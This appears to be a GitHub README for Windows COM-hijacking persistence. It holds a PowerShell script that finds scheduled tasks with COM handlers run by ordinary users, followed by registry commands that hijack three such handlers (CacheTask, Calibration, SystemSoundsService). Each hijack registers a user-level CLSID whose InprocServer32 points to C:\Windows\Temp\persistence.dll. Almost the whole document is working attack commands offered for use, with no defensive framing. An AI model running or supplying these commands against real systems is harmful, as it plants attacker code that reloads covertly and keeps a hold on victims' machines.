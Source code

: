 # COM-Hijacking-Persistence

Show COM CLSIDs:
'''
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      $usersSid = "S-1-5-32-545"
      $usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

      if ($Task.Principal.GroupId -eq $usersGroup)
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
'''

CacheTask:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{0358B920-0AC7-461F-98F4-58E32CD89148}"
New-Item -Path "HKCU:Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}\InprocServer32" -Name "ThreadingModel" -Value "Both"

Calibration:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{B210D694-C8DF-490D-9576-9E20CDBC20BD}"
New-Item -Path "HKCU:Software\Classes\CLSID\{B210D694-C8DF-490D-9576-9E20CDBC20BD}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{B210D694-C8DF-490D-9576-9E20CDBC20BD}\InprocServer32" -Name "ThreadingModel" -Value "Free"

SystemSoundsService:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{2DEA658F-54C1-4227-AF9B-260AB5FC3543}"
New-Item -Path "HKCU:Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32" -Name "ThreadingModel" -Value "Both"
